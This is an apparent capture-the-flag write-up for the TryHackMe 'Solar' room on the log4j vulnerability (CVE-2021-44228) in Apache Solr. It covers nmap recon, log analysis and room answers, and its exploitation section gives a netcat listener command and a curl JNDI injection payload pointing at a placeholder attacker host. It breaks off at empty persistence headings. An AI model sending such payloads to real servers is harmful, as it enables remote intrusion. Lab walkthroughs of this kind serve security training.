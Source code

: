 [Solar, exploiting log4j - TryHackMe](https://tryhackme.com/room/solar) | Cya-nyde
============================================================

Explore CVE-2021-44228, a vulnerability in log4j affecting almost all software under the sun.

## Credits

- Room created by [JohnHammond](https://tryhackme.com/p/JohnHammond) and [tryhackme](https://tryhackme.com/p/tryhackme)
- Room type: Free

## Recon

- Initial recon performed using nmap
- **sV** and **-p-** flags are used to ensure all ports are covered and their service versions listed
- **-T 5** option is added to increase speed at the cost of stealth (since this is a practice room)
- Optionally, add **-v** or **-vv** to increase verbosity

`nmap -sV -p- -T 5 <target ip>`

We get this as output:

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp  open  rpcbind 2-4 (RPC #100000)
8983/tcp open  http    Apache Solr
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### What service is running on port 8983? (Just the name of the software)

> **Apache Solr** is running on port 8983

## Discovery

We can visit the service running on port 8983 directly in a web browser

### Take a close look at the first page visible when navigating to http://x.x.x.x:8983. You should be able to see clear indicators that log4j is in use within the application for logging activity. What is the `-Dsolr.log.dir` argument set to, displayed on the front page?

> The following snippet can be seen on the front page of the portal: <code>-Dsolr.log.dir=**/var/solr/logs**</code>

### One file has a significant number of INFO entries showing repeated requests to one specific URL endpoint. Which file includes contains this repeated entry? (Just the filename itself, no path needed)

- This room gives us a zip file of task files to use
- Looking through each of them, we can find one that has an abnormal amount of INFO entries

> Upon reading through the **solr.log** file, we can see these INFO entries

### What "path" or URL endpoint is indicated in these repeated entries?

Snippet of log:

```
2021-12-13 03:47:53.989 INFO  (qtp1083962448-21) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:54.819 INFO  (qtp1083962448-16) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.284 INFO  (qtp1083962448-19) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:55.682 INFO  (qtp1083962448-22) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
2021-12-13 03:47:56.075 INFO  (qtp1083962448-20) [   ] o.a.s.s.HttpSolrCall [admin] webapp=null path=/admin/cores params={} status=0 QTime=0
```

> The path referenced in these entries is **/admin/cores**

### Viewing these log entries, what field name indicates some data entrypoint that you as a user could control? (Just the field name)

> The **params** field with empty brackets indicates that we could affect the input

## Exploitation

- Open a netcat listener using `nc -lvnp <port of your choice>`
- Use curl to exploit target
    - `curl 'http://x.x.x.x:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:PORT\}'`
- This confirms that we are able to exploit the server, but the room gives us a more detailed attack chain

### What is the output of running this command? (You should leave this terminal window open as it will be actively awaiting connections)

## Persistence

### What user are you?


